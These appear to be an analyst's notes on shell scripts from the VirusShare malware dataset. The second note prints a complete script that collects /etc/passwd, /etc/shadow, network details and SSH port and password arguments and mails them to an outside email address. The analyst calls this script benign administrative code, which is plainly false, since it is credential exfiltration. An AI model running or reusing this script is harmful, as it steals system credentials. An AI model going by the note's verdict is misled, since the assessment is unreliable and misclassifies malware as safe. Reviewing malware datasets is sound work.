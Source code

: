 

-------------------------------------------------------

# VirusShare_892ed5839e0324488266fbb74e077b6e.sh 

## Summary
A typical "boring" pattern. 


## Notes
It matches FP-DW-CH-EXE



-------------------------------------------------------
# VirusShare_0be540186031acdebf3ebff47333cea5.sh 

This script looks totally fine. 
**I doubt how this script is labeled as "virus" by virus total.**

## Summary
It runs the following commands to collect the network status and write those status to a file `/tmp/info`, and email this file to a host. 
```
/sbin/ifconfig > /tmp/info
echo '==='>>/tmp/info
hostname -f >> /tmp/info
echo '==='>>/tmp/info
cat /etc/passwd >>/tmp/info
echo '==='>>/tmp/info
cat /etc/shadow >>/tmp/info
echo '==='>>/tmp/info
ping -c 5 www.yahoo.com >>/tmp/info
echo '==='>>/tmp/info
echo 'Port si parola de ssh'>>/tmp/info
echo '$1:$2:' >>/tmp/info
echo '==='>>/tmp/info
socklist >>/tmp/info >/dev/null 2>&1
echo '==='>>/tmp/info
cat /tmp/info | mail puidedrac@gmail.com -s 'invitation'
```
This code can present in any administrative script.


## Notes
I cannot see any suspicious for this script. 
It can be employed by an administrator of the system to collect any network information and email this information to an email. 
**So, it raises an important question: how can we ensure that our dataset is 100% accurate.**
Because our knowledge is based on this dataset, unlike those using this dataset for evaluate purpose, if this dataset has any "inaccuracy", we have no way to reach an "accurate" conclusion. 
